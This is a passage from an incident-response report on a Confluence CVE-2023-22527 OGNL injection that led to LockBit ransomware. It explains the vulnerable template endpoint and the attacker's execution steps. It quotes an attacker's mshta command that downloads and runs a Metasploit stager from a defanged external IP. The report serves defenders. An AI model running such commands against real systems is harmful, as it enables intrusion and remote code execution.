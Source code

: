 [![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_003.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_003.png)

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_004.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_004.png)

The vulnerability arises from improper handling of user-supplied input within certain template files in Confluence. Specifically, files like confluence/template/xhtml/pagelist.vm accept parameters that are passed to potentially dangerous functions without sufficient sanitization. For instance, the $stack.findValue function can be manipulated to inject malicious Object-Graph Navigation Language (OGNL) expressions, leading to arbitrary code execution. Threat actors can exploit this vulnerability by sending crafted HTTP POST requests to specific endpoints, such as /template/aui/text-inline.vm, with malicious payloads in the parameters. Additional details about the vulnerability can be found in those reports:  [Trend Micro](https://www.trendmicro.com/en_us/research/24/b/unveiling-atlassian-confluence-vulnerability-cve-2023-22527--und.html)  and  [Splunk](https://www.splunk.com/en_us/blog/security/security-insights-tracking-confluence-cve-2023-22527.html).

## [Execution](https://thedfirreport.com/2025/02/24/confluence-exploit-leads-to-lockbit-ransomware/#execution)

After running initial discovery commands the threat actor attempted to download an AnyDesk installer from their server using the exploit.

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_005.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_005.png)

The execution of curl failed to download the AnyDesk installer though. This did not stop the threat actor who later successfully downloaded an AnyDesk installer by other means.

#### Meterpreter

Approximately ten minutes after gaining initial access, the threat actor leveraged the native Windows mshta.exe utility to download and execute a Metasploit stager.

mshta http://92.51.2[.]22:443/UsySLX1n.hta

As outlined in the  [lolbas](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)  project, this technique enables the threat actor to drop a payload into the INetCache directory and execute it directly from there, leveraging trusted system utilities to evade detection.

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_006.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_006.png)

The HTA file executes an encoded PowerShell command.

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_007.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_007.png)

The contents of the HTA file:

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_008.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_008.png)

This encoded command spawns another PowerShell process with an obfuscated command line.

[![](https://thedfirreport.com/wp-content/uploads/2025/02/27244_009.png)](https://thedfirreport.com/wp-content/uploads/2025/02/27244_009.png)
